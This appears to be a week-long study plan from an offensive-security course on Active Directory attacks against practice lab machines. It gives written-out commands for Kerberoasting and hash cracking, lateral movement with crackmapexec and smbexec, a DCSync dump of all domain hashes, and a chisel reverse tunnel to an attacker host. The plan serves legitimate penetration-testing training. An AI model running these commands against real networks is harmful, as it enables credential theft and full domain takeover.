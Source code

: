 # 🏰 Week 9: Active Directory Pt. II — Kerberoasting, DCSync, Pivoting

> _“You’re not in the domain. You are consuming it. One credential. One path. One pivot at a time.”_

---

## 🎯 Mission Objectives

- Perform Kerberoasting and crack service account hashes
    
- Execute a DCSync attack to extract full domain password hashes
    
- Move laterally between machines using cracked credentials
    
- Use tunnels (e.g., `chisel`) to pivot into internal networks
    
- Own and fully document complete domain compromise
    

---

## 🛠 Tools Required

- `GetUserSPNs.py` (Kerberoasting)
    
- `secretsdump.py` (DCSync)
    
- `crackmapexec`, `smbexec.py`, `wmiexec.py`
    
- `BloodHound + neo4j`
    
- `john`, `rockyou.txt`
    
- `chisel` (or `ssh -L`)
    
- (Optional: `Rubeus`, `PowerView.ps1`)
    

---

## 💻 Capstone Machines

|Machine|Tactics Practiced|
|---|---|
|**Reel2**|Kerberoasting, lateral movement|
|**Sizzle**|DCSync, domain root, pivoting|

---

## 🗓 Day-by-Day Strategy

---

### 📅 Monday — Kerberoasting

**Goals:**

- Extract TGS tickets for crackable service accounts
    

**Actions:**

bash

CopyEdit

`GetUserSPNs.py -request bluelock.local/user:pass john spn.hashes --wordlist=/usr/share/wordlists/rockyou.txt`

**Outcome:**

- Identify cracked user
    
- Determine where they have access
    
- Log all output to `kerberoast-log.md`
    

---

### 📅 Tuesday — Lateral Movement

**Goals:**

- Use newly cracked creds to move between systems
    

**Actions:**

bash

CopyEdit

`crackmapexec smb 10.10.10.0/24 -u user -p pass smbexec.py domain/user@target`

**Outcome:**

- Get SYSTEM shell
    
- Note which machines are accessible with which credentials
    
- Log lateral steps in `movement-log.md`
    

---

### 📅 Wednesday — DCSync Attack

**Goals:**

- Extract NTLM hashes from Domain Controller using Replication rights
    

**Actions:**

bash

CopyEdit

`secretsdump.py domain.local/user:pass@dc-ip`

**Outcome:**

- Retrieve all domain hashes
    
- Identify `Administrator`, `krbtgt`, and other high-value targets
    
- Save hashes to `ntdsdump.txt`
    

---

### 📅 Thursday — Pivoting

**Goals:**

- Reach internal hosts using tunnels
    

**Actions:**

bash

CopyEdit

`# Start server on attacker ./chisel server -p 9001 --reverse  # Client on foothold chisel client attacker:9001 R:9999:internal:445`

Or with SSH:

bash

CopyEdit

`ssh -L 9999:internal:445 user@pivot`

**Outcome:**

- Access a service behind firewall or NAT
    
- Log process and network structure in `pivot-map.md`
    

---

### 📅 Friday — Root Reel2

**Focus:**

- Crack SPN → reuse → escalate via local misconfig
    
- Use BloodHound to guide privilege paths
    

**Deliverables:**

- `reel2-report.md`
    
- Include: how you got creds, how you moved laterally, how you got root
    

---

### 📅 Saturday — Root Sizzle

**Focus:**

- DCSync from foothold or after lateral pivot
    
- Gain full domain controller control
    

**Deliverables:**

- `sizzle-report.md`
    
- Include BloodHound path + pivot method used + any additional access
    

---

### 📅 Sunday — Reflection & Cheat Build

**Goals:**

- Solidify full attack chain into repeatable reference
    

**Actions:**

- Build `ad-attacks-cheatsheet.md`:
    
    - Kerberoasting commands
        
    - DCSync steps
        
    - Crackmap lateral movement chains
        
    - Pivoting syntax
        
- Update:
    
    - `notes.md`
        
    - `ego-log.md` with:
        
        - What broke first?
            
        - How did you fix it?
            
        - What will you remember next time?
            

---

## ✅ Week 9 Final Checklist

-  SPNs extracted and at least one cracked
    
-  SYSTEM access achieved on at least one machine
    
-  DCSync performed and hashes extracted
    
-  Successfully pivoted via tunnel
    
-  Rooted **Reel2** and **Sizzle**
    
-  Cheat sheet + 2 full reports written
    
-  Ego log + notes updated with reflections
